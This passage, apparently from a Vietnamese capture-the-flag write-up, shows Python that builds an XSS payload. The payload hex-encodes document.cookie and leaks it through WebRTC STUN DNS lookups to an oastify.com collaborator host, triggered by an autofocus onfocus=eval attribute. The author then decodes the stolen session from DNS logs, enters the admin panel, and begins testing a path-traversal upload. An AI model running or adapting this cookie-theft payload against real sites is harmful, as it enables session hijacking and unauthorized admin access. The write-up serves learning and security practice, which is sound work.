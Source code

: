 ```javascritp!
            if (section) {{
                var hexSection = convertToHex(section);
                var p = new RTCPeerConnection({{
                    iceServers: [{{
                        urls: `stun:${{hexSection}}.${{domain}}`
                    }}]
                }});

            p.createDataChannel("d");
            p.setLocalDescription();
        }}
    }}
}}

leakCookieViaRTC("8enigbdabex4kpkgjo5tpy1q8he82yqn.oastify.com", document.cookie)
"""
    encoded = to_ascii_codes(leak_cookie)
    parser_xss = f"```json' autofocus tabindex=1 onfocus=eval('{encoded}');//\na\n```"
    return parser_xss

print(xss())
```

Ở đây mình có thêm 1 hàm `to_ascii_codes` để có thể encode khi chạy payload. 

Vì khi trong payload thực hiện nó sẽ đi từ `ascii` => `hex` thì nó sẽ hiển thị như sau: 

![image](https://hackmd.io/_uploads/BkIPpfjdgg.png)

Nếu để `0x41` hày `0xa` thì javaScript sẽ hoàn toàn ko hiểu nên cần đổi sang `\x41` và `\x0a`. 

Từ đây mình khai thác DNS server qua Burp Collaborator. 

Sau khi chạy payload:
![image](https://hackmd.io/_uploads/HkVLAGjOgl.png)

Và DNS log trả về:
![image](https://hackmd.io/_uploads/r13qRzjdlx.png)

Sau khi decode từ Hex:
![image](https://hackmd.io/_uploads/S1tGyXsdgg.png)

Và mình copy đoạn session này để vào admin như sau: 

![image](https://hackmd.io/_uploads/Skq-x7sOex.png)

Như đã phân tích thì trong trang admin có chức năng upload và chức năng này dẫn đến path traversal. 

![image](https://hackmd.io/_uploads/SJeXeQsOel.png)

Nên mình thử upload 1 file và quan sát response!! 

![image](https://hackmd.io/_uploads/SkIhgXjOxl.png)
